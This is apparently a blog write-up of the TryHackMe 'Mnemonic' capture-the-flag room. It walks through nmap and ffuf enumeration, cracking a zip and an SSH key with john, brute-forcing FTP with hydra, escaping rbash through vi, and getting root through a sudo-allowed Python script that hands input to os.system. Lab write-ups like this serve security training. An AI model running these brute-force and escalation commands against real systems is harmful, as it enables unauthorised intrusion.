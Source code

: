 ```yaml
---
layout: post
title: Mnemonic
date: 2020-10-1 00:00:01 +5:30
categories: [TryHackMe, Medium]
tags: [osint, dirbust, code-analysis] # add tag
image: /assets/img/mnemonic/mnem.png
---
```


## Description

The Following Post is writeup of mnemonic room of tryhackme <https://tryhackme.com/room/mnemonic>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | [villwocki](https://tryhackme.com/p/villwocki)

## Summary

This room has 3 ports open 21, 80 and 1337. On dirbusting port 80 we will get user backups which contains info about ftp. Bruteforcing it will get us into ftp and there we will get id_rsa of one user.
Logging as that user in ssh at port 1337 get into rbash shell which can be bypassed and we can read dir of another user. We got some strange files in user home dir and the other dir leads to an image.
OSINT with the room name leads us to a github repo which have a decoder with that we can decode the image and get password for other user. There is a code which we can use as sudo but it has one weakness using which we can execute commands as root so got root.

## Walkthrough

### Enumeration

Starting with nmap scan.
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/webmasters/*
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e0:42:c0:a5:7d:42:6f:00:22:f8:c7:54:aa:35:b9:dc (RSA)
|   256 23:eb:a9:9b:45:26:9c:a2:13:ab:c1:ce:07:2b:98:e0 (ECDSA)
|_  256 35:8f:cb:e2:0d:11:2c:0b:63:f2:bc:a0:34:f3:dc:49 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So 1337 have ssh server running.

#### Port80

![port80](/assets/img/mnemonic/port80.png)

![robots](/assets/img/mnemonic/robotstxt.png)

so we have robots.txt it directs us to webmasters.
For moving forward we have a way we can fuzz dir further

```bash
argenestel@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10]
backups                 [Status: 301, Size: 327, Words: 20, Lines: 10]

So let's enum more.

 root@parrot  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/backups/FUZZ.zip
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
<redacted>                [Status: 200, Size: 408, Words: 1, Lines: 9]
```

Okay i assumed  as zip. so we can download the zip and see what we can find inside it.

### Exploitation

Ahh the zip seems encrypted.
So john have script which converts zip to john hash format and john can crack that.

```bash
root@parrot  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>         (backups.zip/backups/note.txt)
1g 0:00:00:02 DONE (2020-09-28 16:02) 0.4115g/s 5872Kp/s 5872Kc/s 5872KC/s 0050cent..0012093760
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

In zip we can see user info and get username.
Now Bruteforce the ftp pass.

```bash
root@parrot  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-28 16:20:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.148.195:21/
[STATUS] 241.00 tries/min, 241 tries in 00:01h, 14344158 to do in 991:60h, 16 active
[STATUS] 245.33 tries/min, 736 tries in 00:03h, 14343663 to do in 974:27h, 16 active
[21][ftp] host: 10.10.148.195   login: ftpuser   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-28 16:24:53
```

250 Directory successfully changed.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 .
drwx------   12 1003     1003         4096 Jul 14 18:22 ..
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 3
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13 20:34 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13 21:18 not.txt

Okay the ftp gave us id_rsa and a not.txt
The ssh key have pass phrase let's crack it
Using ssh2john => hash => hash crack

Got user login.

>But there is a script running as root which will kick us out and we have rbash

Alright i saw a weird 6450.txt file(let's note it we can use it later)
I was Stuck a bit here:
  Got idea to check for mnemonic decryption ans landed on <https://github.com/MustafaTanguner/Mnemonic/>
  So it's indeed right path but i need a image.
  I checked what i can do escape the rbash?

Todo: Escape Rbash and defeat the script
 <https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/>
I checked and we can bypass rbash using vi.

so after that we can check other dir let's check condor we have access to it.

```bash
james@mnemonic:/home$ ls -la condor
ls: cannot access 'condor/..': Permission denied
ls: cannot access 'condor/'\''<redacted>=='\''': Permission denied
ls: cannot access 'condor/.gnupg': Permission denied
ls: cannot access 'condor/.bash_logout': Permission denied
ls: cannot access 'condor/.bashrc': Permission denied
ls: cannot access 'condor/.profile': Permission denied
ls: cannot access 'condor/.cache': Permission denied
ls: cannot access 'condor/.bash_history': Permission denied
ls: cannot access 'condor/.': Permission denied
ls: cannot access 'condor/<redacted>==': Permission denied
total 0
d????????? ? ? ? ?            ?  .
d????????? ? ? ? ?            ?  ..
d????????? ? ? ? ?            ? '<redacted>'
l????????? ? ? ? ?            ?  .bash_history
-????????? ? ? ? ?            ?  .bash_logout
-????????? ? ? ? ?            ?  .bashrc
d????????? ? ? ? ?            ?  .cache
d????????? ? ? ? ?            ?  .gnupg
-????????? ? ? ? ?            ?  .profile
d????????? ? ? ? ?            ? ''\''<redacted>=='\'''
```

Alright base64 and we got flag and image url.

mnemonic + image + (Some config file... Hmmmm)
okay remember we got a 6450.txt yess.

![mnemonic](/assets/img/mnemonic/condorpass.png)

Hurray got user condor.

```bash
condor@mnemonic:~$ sudo -l
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
 ```

 Looking into source code examplecode.py there is a function where we can put input.
yes in option 0
 >os.system(input(Running...))

```bash
 Select:0
are you sure you want to quit ? yes : .

Running....bash

root@mnemonic:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

I was stuck in root for few hours and doing something totally different.
